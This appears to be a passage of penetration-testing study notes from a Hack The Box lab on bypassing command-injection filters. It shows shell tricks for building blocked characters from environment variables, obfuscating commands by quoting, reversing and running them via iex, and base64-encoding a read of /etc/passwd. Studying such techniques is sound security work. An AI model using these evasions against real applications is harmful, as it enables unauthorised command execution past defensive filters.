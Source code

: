 **Bypassing Other Characters:**
* Using variables and picking one character: 
	* Linux: 
		 ```bash
		peluqqi@htb[/htb]$ echo ${PATH}		
		/usr/local/bin:/usr/bin:/bin:/usr/games
		
		peluqqi@htb[/htb]$ echo ${PATH:0:1}		
		/
		
		peluqqi@htb[/htb]$ echo ${LS_COLORS:10:1}
		;
		``` 
	* Windows cmd:
		```cmd-session
		C:\htb> echo %HOMEPATH:~6,-11%

		\
		```
	* Windows Powershell:
		```powershell-session
		PS C:\htb> $env:HOMEPATH[0]
		\

		PS C:\htb> $env:PROGRAMFILES[10]
		```

**And more bypassing:**
* Linux:
	* `w'h'o'am'i`
	* `w"h"o"am"i`
	* `who$@ami`
	* `w\ho\am\i`
* Windows:
	* `who^ami`
* Both:
	* Case manipulation: `WhOaMi`
	* Reversed commands: 
		```bash
		peluqqi@htb[/htb]$ echo 'whoami' | rev
		imaohw

		peluqqi@htb[/htb]$ $(rev<<<'imaohw')
		```
		```powershell-session
		PS C:\htb> "whoami"[-1..-20] -join ''
		imaohw
		
		PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
		```
	* Encoded commands
		```bash
		peluqqi@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64
		Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
